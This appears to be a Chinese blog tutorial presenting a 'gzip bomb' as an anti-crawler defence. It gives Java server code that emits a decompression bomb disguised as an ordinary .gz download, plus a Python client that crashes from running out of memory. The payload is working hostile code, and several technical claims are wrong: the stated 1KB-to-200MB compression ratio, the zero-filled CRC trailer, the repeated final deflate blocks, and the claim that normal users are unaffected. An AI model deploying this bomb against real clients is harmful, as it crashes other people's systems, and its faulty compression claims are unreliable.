

# Gzip Bomb：使用压缩炸弹防御恶意爬虫

## 引言

在网络世界中，恶意爬虫可能导致服务器资源枯竭、数据被盗等问题。本文将介绍一种创新的防御策略——**Gzip炸弹**，它通过发送高度压缩的数据（解压后体积指数级增长），使恶意爬虫消耗大量资源直至崩溃。以下实现基于Java的tio-boot框架，并附有Python爬虫示例展示其效果。

---

## Java服务端实现

### 核心逻辑
```java
package com.litongjava.linux.handler;

import java.io.ByteArrayOutputStream;
import java.util.zip.Deflater;

import com.litongjava.tio.boot.http.TioRequestContext;
import com.litongjava.tio.http.common.HttpRequest;
import com.litongjava.tio.http.common.HttpResponse;

import lombok.extern.slf4j.Slf4j;

@Slf4j
public class GzipBombTestHandler {

  // 预压缩的DEFLATE炸弹模板（1KB压缩数据 → 解压后200MB）
  private static final byte[] DEFLATE_BOMB_TEMPLATE = createDeflateBombTemplate();

  public HttpResponse output(HttpRequest request) {
    HttpResponse httpResponse = TioRequestContext.getResponse();

    // 1. 获取请求参数（默认500MB）
    Long sizeMb = request.getLong("size");
    if (sizeMb == null || sizeMb < 0) sizeMb = 500L;
    sizeMb = Math.min(sizeMb, 1000_000L); // 限制最大1000GB

    try {
      // 2. 生成炸弹数据
      byte[] bombData = generateScalableBomb(sizeMb);

      // 3. 设置响应头（伪装成普通GZIP文件）
      httpResponse.setContentType("application/octet-stream");
      httpResponse.setContentDisposition("attachment; filename=bomb.bin.gz");
      httpResponse.setBody(bombData);

      log.info("Sent Gzip bomb: {} MB -> {} bytes compressed", sizeMb, bombData.length);
    } catch (Exception e) {
      httpResponse.setStatus(500);
      httpResponse.setBody("Server error".getBytes());
    }
    return httpResponse;
  }

  /**
   * 生成可伸缩炸弹数据
   * @param sizeMb 期望解压后的大小(MB)
   */
  private byte[] generateScalableBomb(long sizeMb) {
    // 计算模板重复次数（每个模板解压后≈200MB）
    int repetitions = (int) Math.ceil((double) sizeMb / 200);
    
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    
    // GZIP头部（固定10字节）
    baos.write(new byte[]{ 
      0x1f, (byte)0x8b, // ID1和ID2（GZIP魔数）
      0x08,             // 压缩方法（DEFLATE）
      0x00,             // 标志位
      0x00, 0x00, 0x00, // 时间戳（未设置）
      0x00,             // 压缩标志
      0x03              // OS类型（Linux）
    }, 0, 10);

    // 重复添加压缩模板
    for (int i = 0; i < repetitions; i++) {
      baos.write(DEFLATE_BOMB_TEMPLATE, 0, DEFLATE_BOMB_TEMPLATE.length);
    }

    // GZIP尾部（CRC32校验+原始大小）
    baos.write(new byte[8], 0, 8); // 填充0值
    return baos.toByteArray();
  }

  /**
   * 创建DEFLATE炸弹模板
   * 原理：压缩1MB的0值数据，获得高压缩比模板
   */
  private static byte[] createDeflateBombTemplate() {
    try {
      // 使用最高压缩级别
      Deflater deflater = new Deflater(Deflater.BEST_COMPRESSION, true);
      
      byte[] input = new byte[1024 * 1024]; // 1MB全0数组
      deflater.setInput(input);
      deflater.finish();

      ByteArrayOutputStream baos = new ByteArrayOutputStream();
      byte[] buffer = new byte[1024];
      
      // 分段压缩数据
      while (!deflater.finished()) {
        int count = deflater.deflate(buffer, 0, buffer.length, Deflater.SYNC_FLUSH);
        baos.write(buffer, 0, count);
      }
      return baos.toByteArray();
    } catch (Exception e) {
      throw new RuntimeException("Deflate bomb creation failed", e);
    }
  }
}
```

### 关键特性
1. **高效压缩比**：1KB压缩数据 → 200MB解压数据
2. **动态扩展**：通过URL参数`size`控制炸弹大小
3. **资源保护**：限制最大生成大小（1000GB）
4. **伪装响应**：设置`Content-Disposition`诱导爬虫下载

---

## Python爬虫示例（危险操作！）

```python
import requests
import gzip

# 请求Gzip炸弹（5000MB版本）
r = requests.get("http://127.0.0.1/gzip/bomb/test?size=5000", stream=True)

with open("bomb.bin", "wb") as f:
    # === 内存杀手 ===
    # 尝试解压5GB炸弹数据 → 实际消耗内存远超5GB
    # 普通设备将立即OOM崩溃
    decompressed = gzip.decompress(r.content)  # 危险操作！
    f.write(decompressed)
```

### 执行结果
1. 内存占用瞬间飙升至数GB
2. Python进程因OOM(Out Of Memory)被系统终止
3. 爬虫程序崩溃，无法继续抓取

> **注意**：此代码仅用于演示，实际执行将导致系统卡死！

---

## 安全提示

### 谨慎使用场景
1. **反爬虫防御**：针对恶意爬虫的主动防御
2. **蜜罐系统**：诱捕扫描器/自动化攻击工具
3. **资源保护**：阻止大规模内容抓取

### 防御措施
1. **客户端**：
   - 设置请求超时（`timeout=10`）
   - 流式处理响应（`iter_content`）
   ```python
   # 安全读取方式
   with requests.get(url, stream=True) as r:
       for chunk in r.iter_content(chunk_size=8192): 
           # 处理小数据块
   ```

2. **服务端**：
   - 添加授权验证
   - 记录请求频率
   - 结合IP黑名单使用

---

## 实现原理

### Gzip炸弹工作机制




### 技术优势
1. **极低成本**：服务端仅需KB级资源消耗
2. **精准打击**：不影响正常用户（浏览器会流式处理）
3. **难以检测**：响应格式与普通GZIP文件一致

---

## 结语

Gzip炸弹作为一种"以攻代守"的防御策略，能有效对抗资源贪婪型爬虫。但需注意：**此技术可能违反部分地区的法律法规**，务必在授权环境下使用。理想的安全架构应结合速率限制、行为分析和验证码等多层防御，Gzip炸弹仅作为最后一道防线。